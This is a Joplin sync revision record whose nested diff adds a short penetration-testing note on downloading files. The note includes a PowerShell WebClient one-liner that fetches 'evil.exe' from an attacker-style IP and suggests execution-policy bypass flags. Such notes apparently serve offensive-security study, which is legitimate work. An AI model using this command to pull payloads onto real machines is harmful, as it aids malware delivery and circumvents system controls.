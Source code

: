 id: d1382e95a2674d87ba7a82d01d9edb81
parent_id: 
item_type: 1
item_id: 882da4e2b6914e20a7066ae1c0d5b176
item_updated_time: 1646016692818
title_diff: "[{\"diffs\":[[1,\"11699a210f96443d86ac1eb955ce0775\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 11699a210f96443d86ac1eb955ce0775\\\r\\\nparent_id: 481a3309accb4f02b5f3817d538b10da\\\r\\\nitem_type: 1\\\r\\\nitem_id: 069c62b2fe97431686d1072c2f9241aa\\\r\\\nitem_updated_time: 1643334759163\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"::Main()\\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nDownload a file\\\\\\\\\\\\\n\\\\\\\\\\\\\n> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/ /10.11.0.4/evil.exe', 'new-exploit.exe')\\\\\\\\\\\\\n\\\\\\\\\\\\\nAdd the execution bypass if required (-nop, -ExecutionPolicy Bypass -NoLogo)\\\\\\\"]],\\\\\\\"start1\\\\\\\":386,\\\\\\\"start2\\\\\\\":386,\\\\\\\"length1\\\\\\\":8,\\\\\\\"length2\\\\\\\":217}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"order\\\":1642586493444},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-28T01:59:13.928Z\\\r\\\ncreated_time: 2022-01-28T01:59:13.928Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":734}]"
metadata_diff: {"new":{"id":"882da4e2b6914e20a7066ae1c0d5b176","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016692810,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.664Z
created_time: 2022-02-28T02:54:21.664Z
type_: 13